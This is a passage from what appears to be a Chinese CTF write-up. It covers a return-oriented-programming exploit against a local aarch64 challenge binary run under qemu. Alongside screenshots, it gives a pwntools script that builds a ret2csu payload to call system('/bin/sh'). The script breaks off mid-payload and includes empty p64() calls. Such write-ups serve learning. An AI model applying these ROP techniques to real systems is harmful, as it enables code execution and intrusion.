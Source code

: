 执行 g2

[![](assets/1700442742-5e8abd77649d2bcf317096d14871f96e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183827-70f94cf8-8535-1.png)

执行`system('/bin/sh',0,0)`​

[![](assets/1700442742-f6a25a40a874fe8d61e1a079f0003f09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231117183830-73327a80-8535-1.png)

##### exp：

```plain
from pwn import *
import os

context(os = "linux", arch = 'aarch64', log_level = 'debug')

def dbg():
    os.system('gnome-terminal -x sh -c "gdb-multiarch pwn -ex \'target remote 127.0.0.1:7010\' "')
    pause()


p = process(['qemu-aarch64','-g','7010','-L','/usr/aarch64-linux-gnu/','./pwn'])
#p = process(['qemu-aarch64','-L','/usr/aarch64-linux-gnu/','./pwn'])

elf = ELF("./pwn")
libcso = '/usr/aarch64-linux-gnu/lib/libc.so.6'
libc = ELF(libcso)


context.terminal = ['gnome-terminal','-x','sh','-c']

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')


def arm_csu():
    pl = b'a'*0x88+p64(g1)
    pl += p64()
    pl += p64()
    pl += p64(0xdeadbeef)   #x29
    pl += p64(g2)       #x30

    pl += p64(0)    #x19 --0
```